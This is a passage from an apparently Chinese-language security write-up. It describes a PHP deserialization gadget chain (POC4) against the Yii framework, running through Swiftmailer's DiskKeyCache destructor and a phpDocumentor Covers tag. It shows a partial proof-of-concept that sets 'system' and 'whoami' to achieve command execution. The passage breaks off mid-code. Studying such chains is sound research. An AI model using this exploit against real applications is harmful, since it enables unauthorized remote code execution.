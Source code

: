 ```php
?>
```

# POC4
不得不说，师傅们太强了，这里还找到了一个链子
在这个文件里面

```
/vendor/swiftmailer/swiftmailer/lib/classes/Swift/KeyCache/DiskKeyCache.php
```
```php
public function clearAll($nsKey)
{
    if (array_key_exists($nsKey, $this->keys)) {
        foreach ($this->keys[$nsKey] as $itemKey => $null) {
            $this->clearKey($nsKey, $itemKey);
        }
        if (is_dir($this->path.'/'.$nsKey)) {
            rmdir($this->path.'/'.$nsKey);
        }
        unset($this->keys[$nsKey]);
    }
}

public function __destruct()
{
    foreach ($this->keys as $nsKey => $null) {
        $this->clearAll($nsKey);
    }
}
```
可以发现，这里进了clearAll后，里面会有一个字符串拼接的操作，而path是我们可控的，那么我们就可以执行__toString方法了，找一下能利用的__toString方法
这里找到了一个这个Cover.php
```
/vendor/phpdocumentor/reflection-docblock/src/DocBlock/Tags/Covers.php
```

很明显这里可以调用call方法，直接接上去就可以了

![在这里插入图片描述](https://img-blog.csdnimg.cn/8d3527ee5b874fe3ac2079a054a5b72c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

poc
```php
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\IndexAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters["render"] = [new IndexAction, 'run'];
```